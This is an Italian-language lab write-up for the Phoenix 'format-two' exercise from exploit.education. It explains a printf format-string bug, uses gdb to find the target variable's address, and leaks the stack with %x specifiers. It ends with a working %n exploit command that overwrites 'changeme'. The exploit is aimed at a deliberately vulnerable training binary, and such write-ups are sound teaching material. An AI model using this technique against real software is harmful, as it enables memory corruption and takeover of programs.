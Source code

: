 ### Descrizione del Codice

Il programma `format_two.c` introduce la possibilità di scrivere in aree specifiche della memoria per modificare l'esecuzione del programma.

### Funzionamento del Programma

1. Il programma legge un input dall'utente e lo memorizza in `buf`.
2. Chiama la funzione `bounce` che stampa il contenuto di `buf` usando `printf`.
3. Controlla se la variabile `changeme` è stata modificata.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `printf` con un input controllato dall'utente senza specificare un formato, il che può causare una vulnerabilità di formato. Questo può essere sfruttato per scrivere un valore specifico nella variabile `changeme`.

### Exploit

L'exploit sfrutta la vulnerabilità di formato per scrivere un valore specifico nella variabile `changeme`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```sh
$ gdb -q /opt/phoenix/amd64/format-two
Reading symbols from /opt/phoenix/amd64/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+115>:	call   0x40066d <bounce>
   0x0000000000400705 <+120>:	mov    eax,DWORD PTR [rip+0x2003e5]        # 0x600af0 <changeme>
   0x000000000040070b <+126>:	test   eax,eax
.....

Qui possiamo vedere che l'indirizzo che vogliamo scrivere è 0x600af0, che non è sfruttabile perché contiene caratteri non validi che termineranno l'input e ignoreranno tutto ciò che segue :(

Caratteri non validi:

\x00 (Null)
\x09 (Tab)
\x0a (New line)
\x0d (Carriage return)
\x20 (Space)
Quindi passiamo alla versione a 32 bit.

$ gdb -q /opt/phoenix/i486/format-two 
Reading symbols from /opt/phoenix/i486/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0804859b <+111>:	call   0x8048515 <bounce>
   0x080485a0 <+116>:	add    esp,0x10
   0x080485a3 <+119>:	mov    eax,ds:0x8049868
   0x080485a8 <+124>:	test   eax,eax
.....

Ora l'indirizzo di changeme è 0x8049868, perfetto.

Prima dobbiamo sapere dove viene memorizzato il nostro input nello stack.

$ /opt/phoenix/i486/format-two "AAAA%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd89b 100 0 f7f84b67 ffffd6f0 ffffd6d8 80485a0 ffffd5d0 ffffd89b 100 3e8 41414141 25207825 78252078 20782520 25207825Better luck next time!

Possiamo vedere il nostro input 41414141 che è AAAA all'offset 12.

Per scrivere a un indirizzo usiamo %n che scrive il numero di caratteri finora a un indirizzo di memoria.

Quindi possiamo sostituire AAAA con l'indirizzo di changeme e sostituire l'ultimo %x con %n per scrivere a quell'indirizzo.

$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %x \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd8a5 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8a5 100 3e8 8049868 
Better luck next time!

Nota che scriviamo l'indirizzo in little endian.

Potremmo anche usare il formato di accesso diretto ai parametri usando %12$x invece di tutti questi %x ma non funziona sempre (e apparentemente non funziona qui).

Soluzione
$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'